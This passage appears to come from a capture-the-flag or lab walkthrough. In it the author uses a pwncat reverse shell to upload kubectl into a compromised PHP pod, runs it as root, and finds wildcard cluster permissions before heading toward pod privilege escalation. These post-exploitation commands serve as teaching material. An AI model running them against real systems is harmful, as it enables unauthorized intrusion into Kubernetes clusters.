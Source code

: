 ## Transfering kubectl to target

Now we can upload `kubectl` to the target to interact with kubernetes service.

If you don't have `kubectl` binary on your machine, follow [this](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux) guide on how to download it.

After you downloaded the binary, we can go ahead and upload it to the target using pwncat. By running the following local command, we can upload the file. Add the location of kubectl on your machine to the command and run it:

~~~
(local) pwncat$ upload /Path/to/kubectl /tmp/kubectl
~~~

After the uploading process was completed, use `Ctrl+D` or run `back` to switch to remote connection. Then head to `/tmp` where we uploaded the kubectl binary and mark it as executable:

~~~
(local) pwncat$ back
(remote) root@php-deploy-6d998f68b9-wlslz:/var/www/html# cd /tmp
total 44640
-rw-r--r-- 1 root root 45711360 Jun 12 12:31 kubectl
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# chmod +x kubectl
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ls -l
total 44640
-rwxr-xr-x 1 root root 45711360 Jun 12 12:31 kubectl
~~~

Now `kubectl` is ready to use.

## Enumerating the Kubernetes service

Let's start enumerating the service. First let's check our permissions:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
~~~

we can do `*` verb on `*.*` resources, which means we are allowed to do anything, which makes our work pretty easy.

Here we can see the pod that we are in:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl get pods
NAME                          READY   STATUS    RESTARTS       AGE
php-deploy-6d998f68b9-wlslz   1/1     Running   3 (114m ago)   82d
~~~

With a little search, I found [this blog](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation) by "Seth Art" about "Kubernetes Pod Privilege Escalation", which is very useful and recommend you to take a look at it.
